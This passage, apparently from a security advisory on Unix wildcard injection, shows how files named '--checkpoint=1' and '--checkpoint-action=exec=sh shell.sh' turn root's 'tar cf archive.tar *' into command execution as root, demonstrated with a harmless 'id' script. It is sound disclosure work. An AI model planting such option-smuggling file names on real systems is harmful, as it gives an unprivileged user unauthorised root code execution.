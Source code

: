        --checkpoint-action=ACTION
              execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will
be executed when checkpoint is reached. Basically, that allows us arbitrary
command execution.

Check the following directory:

[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
-rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
-rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
-rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current 
directory.

[root@defensecode public]# tar cf archive.tar *

uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command
execution under root privileges.
Once again, there are few files created by user 'leon'. 

-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 
'tar' program as command line options. Basically, they command tar to execute shell.sh
shell script upon the execution.

[root@defensecode public]# cat shell.sh
/usr/bin/id
